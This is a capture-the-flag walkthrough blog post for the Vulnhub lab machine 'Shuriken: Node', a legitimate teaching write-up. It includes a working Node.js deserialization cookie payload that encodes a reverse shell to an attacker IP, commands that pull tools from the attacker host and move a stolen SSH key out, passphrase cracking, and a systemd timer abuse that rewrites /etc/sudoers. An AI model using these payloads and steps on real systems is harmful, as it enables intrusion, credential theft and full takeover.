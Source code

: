 ```yaml
---
layout: post
title: "Shuriken: Node"
date: 2021-03-07
ctf: true
excerpt: "Walkthrough for Shuriken: Node on Vulnhub"
tags: [privilege escalation, Node.js deserialization, Linux service abuse]
comments: false


---
```



# Shuriken: Node

Shuriken:Node is a recently released box on [Vulnhub](https://www.vulnhub.com/entry/shuriken-node,628/) by TheCyb3rW0lf. It is rated as an easy/medium difficulty box. Below are some hints if you get stuck and a full walkthrough for this box. 

Click on the title to expand each section below.
<hr>
<details><summary><strong>Initial Foothold Hints</strong></summary>
<ul>
    <li>What technologies are being utilized on the main website?
    <li>Are there any vulnerabilities for this technology?
</ul>
</details>

<details><summary><strong>Lateral Movement Hints</strong></summary>
<ul>
    <li>Enumeration is very beneficial.
    <li>What other port was open besides the website's port?
    <li>What would you need to be able to connect with this service without a password?
</ul>
</details>

<details><summary><strong>Root Privilege Escalation Hints</strong></summary>
<ul>
    <li>What can the 2nd user run as sudo?
    <li>Is there a way this could be abused?
</ul>
</details>
<hr>
<details><summary><strong>Full Walkthrough</strong></summary>
First, once imported, I run the following to discover the IP address of the system:

**`netdiscover -i eth0`**

![Shuriken - netdiscover](/assets/img/Shuriken1.png)

Next, I use:

**`threader3000`**

and input the system's IP address when prompted to uncover which ports are open on the system. Once completed, I let it run it's suggested nmap scan as well.

![Shuriken - threader3000](/assets/img/Shuriken2.png)

It appears that both SSH and a website are open. Let's visit the website on port 8080 by navigating to **http://\<target IP\>:8080** in our browser.

It appears that this company was recently the victim of a data breach.

![Shuriken - website1](/assets/img/Shuriken3.png)

 Scrolling further down there is a mention of a Node.js vulnerability. Node.js is being utilized as shown in the above nmap scan. Let's see if they are utilizing a vulnerable version.

![Shuriken - website2](/assets/img/Shuriken4.png)

Digging into this further, I uncovered that there was a cookie with a URL encoded value stored for my session:

![Shuriken - cookie](/assets/img/Shuriken5.png)

I used [CyberChef](https://gchq.github.io/CyberChef/) to URL Decode this value. This appeared to return a base64 encoded string. I then decoded this value as base64, which returned the following:



![Shuriken - decode cookie](/assets/img/Shuriken6.png)



Let's see if we can modify these cookie values and see if we're able to login as an administrator. I tested by changing the "username" value to admin and "isGuest" to false. I then reencoded the string as base64/URL encoding.

![Shuriken reencode cookie](/assets/img/Shuriken7.png)

Let's reload the page and see what happens.

![Shuriken revisit webpage](/assets/img/Shuriken8.png)

It appears that this updated the username to "admin", but we still need to login. Let's try a deserialization attack and insert a reverse shell into the cookie. Luckily, a sample script is available [here](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py). Let's run it as follows:

**`python nodejsshell.py <attacker ip> <attacker port>`**

![Shuriken nodejsshell.py](/assets/img/Shuriken9.png)

There's some additional steps that need to occur in order to properly get this to work. The following [site](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) provides a good example of what the values need to be set to. Essentially, the cookie needs to be replaced with something similar to the following:

**`{"rce":"_$$ND_FUNC$$_function (){<insert code from nodejsshell.py>}()"}`**

In this particular example, the code looks like the following:

**`{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,
114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,
114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,
97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,46,49,57,50,34,59,10,80,79,82,84,61,34,
52,53,54,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,
111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,
115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,
112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,
111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,
102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,
79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,
119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,
110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,
10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,
115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,
34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,
116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,
115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,
115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,
32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,
100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,
101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,
32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,
114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,
115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,
84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}`**

Let's reencode this to base64 and then URL encoding with CyberChef. Place the output of the script above in the "username" field.

![Shuriken modify cookie](/assets/img/Shuriken10.png)

Next, before we update the cookie value, let's create a netcat listener on our attacker pc. This can be done with:

**`nc -nvlp <port>`** 

where the port used is the one utilized in the nodejsshell.py script above.

![Shuriken nc listener](/assets/img/Shuriken11.png)



Next, modify this cookie value (in developer tools) and reload the webpage.

![Shuriken modify cookie value](/assets/img/Shuriken13.png)

If you look at your terminal window with netcat running, you should have an initial foothold on this system! 

![Shuriken initial foothold](/assets/img/Shuriken14.png)

Let's see how we can upgrade our shell. First, let's run:

**`which python`**

This returns a result, **/usr/bin/python** which lets us know that python is locally installed. Let's run

**`python -c 'import pty; pty.spawn("/bin/bash")'`** to upgrade our shell.

![Shuriken upgrade shell](/assets/img/Shuriken15.png)

Next, let's get linpeas onto this server by hosting it on our attacker host. This can be done by running the following command in another terminal window:

**`python3 -m http.server 8080`**

![Shuriken python3 http.server](/assets/img/Shuriken16.png)

Next, on the victim host, run the following commands to download the linpeas.sh script and make it executable:

**`cd /tmp`**

**`wget http://<attacker ip>:8080/linpeas.sh`**

**`chmod +x ./linpeas.sh`**

![Shuriken linpeas download](/assets/img/Shuriken17.png)

Next, run:

 **`./linpeas.sh`**

and review the output for privilege escalation methods. It appears that there is a backup of some SSH keys in  the /var/backups directory as shown below:



![Shuriken ssh-key.zip](/assets/img/Shuriken18.png)

Let's navigate to this directory with:

**`cd /var/backups`**

and run 

**`ls -al`** to view permissions on this file:

![Shuriken ssh-backup.zip permissions](/assets/img/Shuriken19.png)

It appears we have read only access to this file. Let's copy it to our current user's home directory with: 

**`cp ssh-backup.zip ~/`**

![Shuriken copy ssh-backup.zip file](/assets/img/Shuriken20.png)

Next, let's navigate to our user's home directory with:

**`cd ~`**

and then run: 

**`unzip ssh-backup.zip`**

This will inflate the id_rsa file, which is a private key for what is presumed to be the serv-adm user.

![Shuriken inflate ssh-backup file](/assets/img/Shuriken21.png)

We need to extract the public key, so in order to do so, we need to copy this file over to our attacker host. We know that python is installed so let's start a server with: 

**`python -m SimpleHTTPServer 9000`**

![Shuriken python SimpleHTTPServer](/assets/img/Shuriken22.png)

On our attacker host, let's run the following command:

**`wget http://<victim ip>:9000/id_rsa`**

![Shuriken save id_rsa](/assets/img/Shuriken23.png)

Next, let's change the permissions on this file to 600 with:

**`chmod 600 id_rsa`**

Next, let's convert this to a format that can be cracked with john with:

**`/usr/share/john/ssh2john.py id_rsa crackme`**

![Shuriken ssh2john](/assets/img/Shuriken24.png)

Next, let's run john with the following:

**`john crackme --wordlist=/usr/share/wordlists/rockyou.txt`**

This will return a password relatively quickly:

![Shuriken john ssh password](/assets/img/Shuriken25.png)

Now, let's SSH in and attempt to do it as the serv-adm user with:

**`ssh -i id_rsa serv-adm@<victim ip>`** 

When prompted for the password, enter the one that was cracked by john.

![Shuriken serv-adm access](/assets/img/Shuriken27.png)

Awesome, we now have access as the serv-adm user. Let's see if they have access to any root level permissions with:

**`sudo -l`**

![Shuriken serv-adm sudo -l](/assets/img/Shuriken28.png)

It looks like we have access to start/stop a service named shuriken-auto.timer. Let's run:

**`locate shuriken-auto.timer`** 

to find the folder this service is saved in

![Shuriken locate shuriken-auto.timer](/assets/img/Shuriken29.png)

Let's navigate to this folder with:

**`cd /etc/systemd/system/`**

and run:

**`ls -al|grep shuriken`**

![Shuriken view shuriken-auto.timer permissions](/assets/img/Shuriken30.png)

It appears we have the ability to modify this job and timer! Let's delete what's in there and modify the timer settings to:

**`OnCalendar=*:0/1`**

![Shuriken edit timer](/assets/img/Shuriken31.png)

Next, let's run:

**`nano shuriken-job.service`**

and change the [Service] section to what is shown in the screenshot below:

![Shuriken edit service](/assets/img/Shuriken32.png)

Once saved, navigate to the tmp directory with:

**`/cd/tmp`**

followed by:

**`nano test.sh`**

and enter the following:

**`#!/bin/bash`**

**`chmod 777 /etc/sudoers`**

![Shuriken modify sudoers](/assets/img/Shuriken33.png)

Next, let's make this script executable with:

**`chmod +x test.sh`**

![Shuriken chmod +x test.sh](/assets/img/Shuriken34.png)

Let's stop/start and reload the daemon by running the following:

**`sudo /bin/systemctl stop shuriken-auto.timer`**

**`sudo /bin/systemctl start shuriken-auto.timer`**

**`sudo /bin/systemctl daemon-reload`**

After a minute, the /etc/sudoers file should be world writeable:

![Shuriken sudoers permission change](/assets/img/Shuriken35.png)

Let's run:

**`nano /etc/sudoers`** 

and modify it so the serv-adm user can run bash as root by adding in the following:

**`serv-adm ALL=(ALL)NOPASSWD: /bin/bash`**

![Shuriken modify /etc/sudoers](/assets/img/Shuriken36.png)

Save and exit this file.

Next, we need to modify the permissions on /etc/sudoers back to 440 or else it will not work properly. Let's run **nano test.sh** and change the permissions to 440 in this script.

![Shuriken revert /etc/sudoers permissions](/assets/img/Shuriken37.png)

After a minute, the permissions should revert back to the appropriate level.

![Shuriken sudoers file permissions reverted](/assets/img/Shuriken38.png)

Now, let's run:

**`sudo /bin/bash`**

which should give you root access. Follow this up with:

**`cd /root`**

and

**`cat root.txt`**

to finish this box!

![Shuriken rooted](/assets/img/Shuriken39.png)

</details>
